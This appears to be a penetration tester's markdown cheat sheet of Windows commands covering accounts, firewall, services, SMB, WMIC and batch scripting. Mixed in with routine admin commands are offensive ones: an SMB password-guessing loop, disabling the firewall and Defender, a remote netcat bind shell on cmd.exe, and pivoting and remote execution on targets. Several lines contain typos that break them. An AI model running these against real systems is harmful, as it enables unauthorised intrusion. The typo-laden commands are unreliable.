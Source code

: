 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Windows Commands**

Category | Topic | Command
Accounts and Privileges | Lauch with Admin Privs | ctrl+shift+enter 
Accounts and Privileges | SID | S-[revision level]-[authority level]-[domain/computer]-RID
Accounts and Privileges | Admin RID | 500
Accounts and Privileges | Guest RID | 501 
Accounts and Privileges | Users RID | 1001 and up
Accounts and Privileges | Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Accounts and Privileges | Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
Accounts and Privileges | List Local Users | net user
Accounts and Privileges | List Groups | net localgroup
Accounts and Privileges | List Administrators | net localgroup administrators 
Accounts and Privileges | List Account Policy | net accounts or net accounts /domain
Accounts and Privileges | Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Accounts and Privileges | Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"

AntiVirus | Turn off Windows Defender | control /name Microsoft.WindowsDefender
AntiVirus | Turn off Smart Screen | control /name Microsoft.ActionCenter

Inventory, File Search, and Counting | Count Lines | <code> type "file" | find /c /v "" </code>
Inventory, File Search, and Counting | Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Inventory, File Search, and Counting | Display File Contents | type [file], type *.[ext], type [file1] [file2]
Inventory, File Search, and Counting | Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
Inventory, File Search, and Counting | See Environment Variables | set, set [variable_name] <br> Example: username, path
Inventory, File Search, and Counting | Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Inventory, File Search, and Counting | Read Registry Key | reg query [keyName] 
Inventory, File Search, and Counting | Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Inventory, File Search, and Counting | Export Registry Keys | reg export [keyName] [filename.reg] 
Inventory, File Search, and Counting | Import Registry Keys | reg import [filename.reg]
Inventory, File Search, and Counting | Find a String  | find "[string]", findstr [regex] 

Network and Firewalls | Network Activity | <code> netstat -na | find ":[port]"</code> 
Network and Firewalls | DNS cahce | ipconfig /displaydns
Network and Firewalls | Turn firewall off | netsh advfirewall set allprofiles state off
Network and Firewalls | Firewall Rule | netsh advfirewall firewall add rule name="[name]" dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23
Network and Firewalls | Delete Firewall Rule | netsh advfirewall firewall del rule name="[name]" 
Network and Firewalls | Disable Firewall | netsh advfirewall set allprofiles state off 
Network and Firewalls | Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
Network and Firewalls | View Firewall Configuration | netsh advfirewall show allprofiles 
Network and Firewalls | Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
Network and Firewalls | DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name"
Network and Firewalls | Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] 

Process and Service | Install a service | "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer" | 
Process and Service | List Running Services | sc query | 
Process and Service | List All Services | sc query state= all | 
Process and Service | List Remote Services  | sc \\[targetIP] query | 
Process and Service | Check status of service | sc query [service name] | 
Process and Service | Start/Stop a service | sc start/stop [service name] | 
Process and Service | Change Startup type of service | sc config [servicename] start= demand | termservice, telnet
Process and Service | Delete Service | sc delete [service name] | 
Process and Service | List Processes | tasklist | 
Process and Service | Kill a Process | taskkill /PID [process_ID] | 
Remote Access, SMB, and WMIC | See Current Privileges | whoami | 
Remote Access, SMB, and WMIC | Windows null session | net use \\targetip "" /u:"" | 
Remote Access, SMB, and WMIC | Establish an SMB session | net use \\[targetIP] [password] /u:[user] | 
Remote Access, SMB, and WMIC | Mount a Share on Target | "net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user]" | 
Remote Access, SMB, and WMIC | Dropping SMB Session | "net use \\[targetIP] /del <br> net use * /del" | 

Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 
Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 

